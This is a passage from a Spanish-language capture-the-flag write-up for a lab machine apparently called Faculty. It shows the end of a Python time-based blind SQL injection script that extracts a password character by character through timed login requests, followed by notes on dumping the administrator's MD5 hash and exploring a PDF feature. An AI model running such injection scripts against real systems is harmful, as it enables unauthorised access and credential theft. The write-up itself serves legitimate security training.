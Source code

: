 ```python
				
			#Data del cuerpo de la request que queremos enviar
			r = requests.post(login_url, data=post_data)
				
			time_end = time.time() #El tiempo de finalizacion actual
			#Le indicamos si es que time_end menos time_start es mayor que a 3 y si hay 3 segundos de diferencia entonces ese es el caracter por lo tanto a database se le agrega un character entonces con un break salta a la siguiente posicion
			if time_end - time_start > 3:
				password += character
				p2.status(password)
				break
	
#Flujo inicial del progama
if __name__ == '__main__':
	
	sqli()
```

Al llegar a la tabla users veo una columna password por lo tanto la dumpeo la password del usuario administrador

![Sqli](../assets/images-Faculty/Sqli.png)

veo que el hash esta en MD5, pero al intentar crackear no lo logre, y no encontré nada mas interesante.

![Hash](../assets/images-Faculty/Hash.png)

### MDPF-User
Por lo tanto veré las funcionalidades del panel de administrador, veo que tengo la capacidad para crear un PDF y al crearlo me abre una nueva ventana para visualizar el contendio
